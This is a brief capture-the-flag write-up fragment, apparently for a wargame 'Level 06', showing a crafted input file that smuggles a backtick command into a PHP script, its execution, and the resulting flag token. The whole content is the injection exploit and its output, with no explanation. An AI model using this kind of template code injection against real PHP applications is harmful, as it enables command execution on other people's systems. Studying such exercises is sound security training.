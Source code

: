 # Level 06



echo '[x ${`/bin/getflag`}]' > /tmp/test
./level06 /tmp/test
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub